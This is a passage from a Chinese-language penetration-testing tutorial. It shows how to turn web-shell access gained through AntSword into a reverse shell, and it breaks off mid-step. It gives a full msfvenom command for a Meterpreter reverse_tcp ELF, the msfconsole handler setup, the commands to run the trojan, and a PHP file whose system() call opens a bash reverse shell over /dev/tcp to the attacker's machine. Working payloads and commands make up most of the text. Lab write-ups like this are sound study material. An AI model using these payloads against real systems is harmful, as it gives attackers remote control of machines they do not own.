 **4444.elf**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220318113629623](https://gitee.com/xxb667/img/raw/master/img/image-20220318113629623.png)

### 3-1.4 kali监听

msf进行监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

![image-20220318114013302](https://gitee.com/xxb667/img/raw/master/img/image-20220318114013302.png)

返回蚁剑运行木马文件

```
chmod +x 4444.elf
./4444.elf
```

![image-20220318114138269](https://gitee.com/xxb667/img/raw/master/img/image-20220318114138269.png)

返回kali，已经成功反弹

![image-20220318114234405](https://gitee.com/xxb667/img/raw/master/img/image-20220318114234405.png)

## 3-2 nc_shell反弹shell

php文件，生成的php文件名为：1234.php

然后把php文件通过蚁剑进行上传

```
<?php system("echo 'bash -i >& /dev/tcp/192.168.81.131/1234 0>&1' | bash");?>
```

![image-20220318142834768](https://gitee.com/xxb667/img/raw/master/img/image-20220318142834768.png)



kali服务端监听

```
nc -nvlp 1234
```

蚁剑运行
